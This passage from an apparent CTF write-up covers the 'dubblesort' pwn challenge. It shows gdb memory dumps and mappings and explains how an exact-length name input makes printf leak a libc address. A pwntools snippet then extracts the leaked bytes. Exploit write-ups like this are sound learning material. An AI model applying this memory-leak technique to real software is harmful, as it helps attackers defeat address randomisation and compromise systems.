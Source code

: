 ```
Breakpoint 2 at 0x56555a1d
(gdb) c
Continuing.
What your name :aaaabbbb

Breakpoint 2, 0x56555a1d in main ()
(gdb) x/7wx 0xffffce2c
0xffffce2c:	0x61616161	0x62626262	0x0000000a	0x0000009e
0xffffce3c:	0x00000016	0x00008000	0xf7fd0000
[...]
```
```
(gdb) info proc mappings
process 551
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x56555000 0x56556000     0x1000        0x0 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/dubblesort
	0x56556000 0x56557000     0x1000        0x0 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/dubblesort
	0x56557000 0x56558000     0x1000     0x1000 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/dubblesort
	0xf7e1f000 0xf7e20000     0x1000        0x0 
	0xf7e20000 0xf7fcd000   0x1ad000        0x0 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/libc_32.so.6
	0xf7fcd000 0xf7fce000     0x1000   0x1ad000 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/libc_32.so.6
	0xf7fce000 0xf7fd0000     0x2000   0x1ad000 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/libc_32.so.6
	0xf7fd0000 0xf7fd1000     0x1000   0x1af000 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/libc_32.so.6
	0xf7fd1000 0xf7fd5000     0x4000        0x0 
	0xf7fd5000 0xf7fd8000     0x3000        0x0 [vvar]
	0xf7fd8000 0xf7fd9000     0x1000        0x0 [vdso]
	0xf7fd9000 0xf7ffc000    0x23000        0x0 /lib/i386-linux-gnu/ld-2.23.so
	0xf7ffc000 0xf7ffd000     0x1000    0x22000 /lib/i386-linux-gnu/ld-2.23.so
	0xf7ffd000 0xf7ffe000     0x1000    0x23000 /lib/i386-linux-gnu/ld-2.23.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) 
```

To leak said libc address, our name has to be 24 characters long (excluding the newline character). This is so that `printf` will print out the whole thing as a string. This is the part of the python script that extracts the leaked address. You might wonder why it is necessary to replace the `'\n'` with `\x00`. It is because when our name is 24 characters long, the 25th character is `'\n'` when we enter our name in. That overwrites the libc address from `0xf7fd0000` to `0xf7fd000a`. When we extract the leaked address from the output, we have to make sure to convert it back to `0xf7fd0000`.
```
p = process('./dubblesort', env={'LD_PRELOAD':'./libc_32.so.6'})
[...]
p.recvuntil('What your name :')

p.sendline(MY_NAME)

p.recvuntil("\n")
leaked_addr = '\x00' + p.recv(3) 
alt_addr = leaked_addr[1:] + p.recv(1)
```
